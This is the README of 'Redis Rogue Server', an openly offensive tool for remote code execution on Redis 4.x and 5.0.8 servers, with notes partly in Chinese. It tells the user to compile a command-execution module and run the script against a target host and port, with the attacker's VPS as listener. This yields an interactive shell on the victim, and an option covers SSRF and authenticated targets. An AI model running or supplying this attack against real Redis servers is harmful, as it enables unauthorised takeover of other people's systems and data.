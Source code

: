 # Redis Rogue Server

A exploit for Redis 4.x RCE, inspired by [Redis post-exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).

Works for Redis 5.0.8.

经测试Redis 5.0.8也可以使用，没有出现ppt上写的5.0无法set/get config的情况.

## Usage:

Compile .so from <https://github.com/n0b0dyCN/RedisModules-ExecuteCommand>.

Copy the .so file to same folder with `redis-rogue-server.py`.

Run the rogue server:

```
python3 redis-rogue-server.py --rhost <target address> --rport <target port> --lhost <vps address> --lport <vps port>
```

如果目标Redis服务开启了认证功能，可以通过`--passwd`指定密码

The default target port is 6379 and the default vps port is 21000.

And you will get an interactive shell!

You can use `--server-only` for SSRF cases.